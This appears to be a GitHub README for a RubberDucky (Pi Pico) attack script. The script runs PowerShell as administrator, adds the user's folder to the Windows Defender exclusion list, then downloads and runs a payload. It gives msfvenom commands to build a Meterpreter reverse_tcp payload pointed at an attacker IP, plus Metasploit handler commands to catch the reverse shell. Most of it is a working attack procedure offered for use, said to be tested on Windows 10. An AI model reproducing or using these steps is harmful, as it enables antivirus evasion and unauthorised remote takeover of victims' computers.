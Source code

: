 Windows Defender ExclusionPath + ReverseShell
=============================================

This scrip will run PowerShell as administrator privilege and add directory of current User into Microsoft Windows Defender Exclusion. Then PowerShell will download payload file and run the payload. Last, exit the PowerShell.

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o windowsx64.exe
  
2. Upload your payload
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
